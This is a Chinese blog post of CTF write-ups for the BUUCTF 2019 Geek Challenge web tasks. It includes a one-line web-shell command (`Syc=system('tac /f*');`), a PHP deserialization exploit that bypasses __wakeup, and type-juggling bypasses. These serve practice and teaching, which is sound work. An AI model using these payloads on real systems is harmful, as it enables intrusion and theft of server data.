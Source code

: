 ```yaml
---
title:  buu极客大挑战
date: 2024-10-01 13:25:14
permalink: /pages/8f5e89/
author: 
  name: Cola
  link: https://the0n3.top
---
```


## [极客大挑战 2019]Http

打开页面，查看源码，找到隐藏的php页面的路径，基础的http header做了就给flag

![1](https://the0n3.top/medias/daily/geek/1.png)

## [极客大挑战 2019]Knife

白给的shell`Syc=system('tac /f*');`


## [极客大挑战 2019]PHP

提示备份，下载www.zip，压缩包里有`class.php`，审计

index.php里包含了class.php，并接收一个select get参数

![2](https://the0n3.top/medias/daily/geek/2.png)

```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

exp

```php
$payload = new Name('admin',100);
echo urlencode(serialize($payload));
```

类里有个`wakeup`魔术方法，尝试修改对象的属性个数绕过，把2改3就可以了

![3](https://the0n3.top/medias/daily/geek/3.png)

## [极客大挑战 2019]BuyFlag

找到题目路径，访问，查看源码，里面有注释的php代码

三个限制，1.a student from CUIT，2.密码，3.金额

money，password都可以在源码里看到

![4](https://the0n3.top/medias/daily/geek/4.png)

没有找到`a student from CUIT`相关内容，最后可以通过抓包或者查看网站cookie，找到`user:0`，1就代表`a student from CUIT`

简单的绕过

1.第一层可以用`404a`绕过，他是字符串，和数字比较会自动转换，只保留开头的数字

2.第二层提示长度太长，可以使用科学计数法，`9e9`

![6](https://the0n3.top/medias/daily/geek/6.png)